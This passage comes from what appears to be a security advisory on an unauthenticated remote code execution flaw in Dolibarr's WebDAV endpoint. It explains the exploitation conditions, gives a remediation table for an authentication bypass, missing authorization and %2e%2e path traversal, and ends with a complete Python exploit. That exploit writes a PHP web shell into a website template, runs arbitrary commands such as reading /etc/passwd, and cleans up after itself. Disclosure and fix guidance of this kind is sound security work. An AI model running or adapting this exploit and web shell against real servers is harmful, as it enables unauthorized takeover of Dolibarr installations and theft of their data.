1. **`--path-as-is` cannot be omitted.** Without it, curl decodes `%2e%2e` into `..` and collapses it with the preceding `ecm` segment, actually sending `PUT /dav/fileserver.php/website/temp/...` — `website` is not a DAV root node and the server returns `409 Sabre\DAV\Exception\Conflict: Files cannot be created in non-existent collections`. Browsers, `python-requests` and most HTTP libraries normalize `%2e%2e` likewise, so a raw HTTP client must be used (Burp Repeater / `curl --path-as-is` / `--request-target`).
2. **`exec()` does not print anything by itself.** The payload must capture and echo the output (`exec($_GET["cmd"], $o); echo implode("\n", $o);`); a bare `exec($_GET["cmd"]);` runs the command but returns an empty body. Note also that the official Dolibarr image disables `system`, `shell_exec`, `passthru`, `popen` and `proc_open`, while `exec` remains available.

**`&pageref=` cannot be omitted**: the `require_once website/class/websitepage.class.php` at `public/website/index.php:123` only runs inside the `empty($pageid)` branch, while `public/website/index.php:184` unconditionally does `new WebsitePage($db)`; passing `pageid` alone triggers a fatal `Class "WebsitePage" not found` at `public/website/index.php:184`. Adding `pageref` makes `public/website/index.php:183 empty($pageref)` false and skips that branch.

Corresponding script: `exploit_outside.py` (`--url` / `--site temp` / `--page-id 1` / `--cmd` / `--keep`)

### Remediation Recommendations

The three root causes are mutually independent and **all of them must be fixed**; fixing only one leaves the others reachable as before. Root cause C means that fixing A/B is still not enough to prevent the write target from being widened.


| Root cause | Location | Fix | Still valid after the other one is fixed |
| -------------- | --------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------- |
| A Authentication bypassed | `dav/fileserver.php:236-239` | Restrict the whitelist by method, applying it only when `$_SERVER['REQUEST_METHOD'] === 'GET'`; or handle the asset inside `Browser\Plugin` without touching the `Auth\Plugin` mounting | B remains valid |
| B Missing authorization | `dav/fileserver.php:117-179`, `dav/fileserver.php:257` | Add an authorization decision in the callback before the `return true` at `dav/fileserver.php:178` (e.g. `$user->hasRight('dav', ...)`), decoupling "authentication passed" from "DAV usable"; or enable `Sabre\DAVACL\Plugin` | A remains valid |
| C Path traversal | `includes/sabre/sabre/dav/lib/DAV/Server.php:566`, `includes/sabre/sabre/uri/lib/functions.php` `normalize()` | Change `calculateUri()` to perform `..` normalization and rejection **after** `decodePath()` (or reject segments containing `%2e` before normalization); upgrade sabre/uri to a fixed version | After A/B are fixed, the whole data root can still be read and written outside the DAV root |

In addition, sink hardening that is independent of the above root causes:

3. Add dotfile and extension checks at the stage 5 WebDAV sink (aligned with `api/class/api_documents.class.php:1042`)
4. Call `isAFileWithExecutableContent()` before writing at stage 5, appending `.noexe` to executable content

### Code Appendix

#### exploit_outside.py — data root outside the webroot

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
Dolibarr 24.0.2 WebDAV unauthenticated RCE — data root located outside the webroot

Applies to: $dolibarr_main_data_root pointing outside the web directory (installer default /var/www/documents,
      or any web-unreachable path). In that case "write a .php then GET it directly" does not work; instead:

  Root cause A unauthenticated write
    + root cause C  %2e%2e one-level traversal (jump from the ecm root to the <data_root> top level)
    + Website template include (<data_root>/website/<key>/page<N>.tpl.php executed by
      the include_once at public/website/index.php:266)

Prerequisites:
  1. DAV module enabled                (MAIN_MODULE_DAV=1)
  2. ECM module enabled + DAV_ALLOW_ECM_DIR=1 (the ecm root must exist to traverse one level to <data_root>)
  3. Website module enabled            (creates <data_root>/website/temp/ automatically)

Usage:
  python3 exploit_outside.py --url http://127.0.0.1:8091
  python3 exploit_outside.py --url http://127.0.0.1:8091 --cmd 'cat /etc/passwd'
  python3 exploit_outside.py --url http://127.0.0.1:8091 --keep

Note: the %2e%2e in the path must be sent as-is. With curl, add --path-as-is;
      browsers and most HTTP libraries normalize it to .. and collapse it with the preceding segment, causing 409.
"""
import argparse
import sys
import urllib.error
import urllib.parse
import urllib.request

# Traverse one level up from the ecm root → <data_root>, then write website/<key>/page<N>.tpl.php
TRAVERSE = "/dav/fileserver.php/ecm/%%2e%%2e/website/%s/page%d.tpl.php"   # %%2e = literal %2e
BYPASS   = "?sabreAction=asset&assetName=a.png"
INCLUDE  = "/public/website/index.php?website=%s&pageid=%d&pageref=x&cmd=%s"
BEGIN, END = "###BEGIN###", "###END###"

SHELL_TEMPLATE = ("<?php\n"
                  "header('Content-Type: text/plain');\n"
                  "echo '###BEGIN###' . \"\\n\";\n"
                  "$c = isset($_GET['cmd']) ? $_GET['cmd'] : 'id';\n"
                  "if (is_array($c)) { $c = implode(' ', $c); }\n"
                  "if (function_exists('exec')) { $o = array(); @exec($c, $o); echo implode(\"\\n\", $o); }\n"
                  "elseif (function_exists('system')) { @system($c); }\n"
                  "elseif (function_exists('passthru')) { @passthru($c); }\n"
                  "elseif (function_exists('shell_exec')) { echo @shell_exec($c); }\n"
                  "else { echo 'PHP_EXEC_OK host=' . php_uname('n'); }\n"
                  "echo \"\\n\" . '###END###';\n")


def http(method, url, data=None, timeout=15):
    req = urllib.request.Request(url, data=data, method=method)
    try:
        with urllib.request.urlopen(req, timeout=timeout) as r:
            return r.status, r.read().decode("utf-8", "replace")
    except urllib.error.HTTPError as e:
        return e.code, e.read().decode("utf-8", "replace")[:300]
    except Exception as e:
        return 0, str(e)


def main():
    ap = argparse.ArgumentParser(
        description="Dolibarr WebDAV unauthenticated RCE (data root outside the webroot, traversal + Website include)")
    ap.add_argument("--url", default="http://127.0.0.1:8091", help="target (default %(default)s)")
    ap.add_argument("--site", default="temp", help="website directory name (default %(default)s, the empty directory shipped with the module)")
    ap.add_argument("--page-id", type=int, default=1, help="template page number, must match the file name (default %(default)s)")
    ap.add_argument("--cmd", default="id", help="command to execute (default %(default)s)")
    ap.add_argument("--keep", action="store_true", help="keep the written template (cleaned up after execution by default)")
    args = ap.parse_args()

    base = args.url.rstrip("/")
    tpl  = TRAVERSE % (args.site, args.page_id)
    inc  = INCLUDE % (args.site, args.page_id, urllib.parse.quote(args.cmd))

    print("[*] target :", base)
    print("[*] shell  : <data_root>/website/%s/page%d.tpl.php" % (args.site, args.page_id))
    print("[*] command:", args.cmd)

    # 1) write the template via traversal
    st, body = http("PUT", base + tpl + BYPASS, SHELL_TEMPLATE.encode())
    print("[1] PUT %s -> %s   [unauthenticated · traversal]" % (tpl, st))
    if st == 409:
        print("    409: parent directory does not exist → Website module not enabled (missing <data_root>/website/%s/)"
              % args.site)
        return 1
    if st == 401:
        print("    401: whitelist not effective → check whether the URL carries the BYPASS query string verbatim")
        return 1
    if st not in (200, 201, 204):
        print("    write failed: check the DAV module / ECM module / DAV_ALLOW_ECM_DIR")
        print("    response:", body[:200])
        return 1

    # 2) request the public entry point, triggering the include
    st, out = http("GET", base + inc)
    ok = BEGIN in out and END in out
    payload = out.split(BEGIN, 1)[-1].split(END, 1)[0].strip("\n") if ok else out[:300]
    print("[2] GET %s -> %s" % (INCLUDE % (args.site, args.page_id, args.cmd), st))
    for line in (payload.splitlines() or ["(empty response)"]):
        print("    " + line)
    rc = 0 if ok else 1
    if not ok:
        print("    markers not found: check whether the Website module is enabled and whether pageid matches the file name")

    # 3) cleanup
    if not args.keep:
        st1, _ = http("DELETE", base + tpl + BYPASS)
        print("[3] DELETE %s -> %s (cleaned up)" % (tpl, st1))
    else:
        print("[3] --keep: keeping %s" % tpl)

    return rc


if __name__ == "__main__":
    sys.exit(main())
```
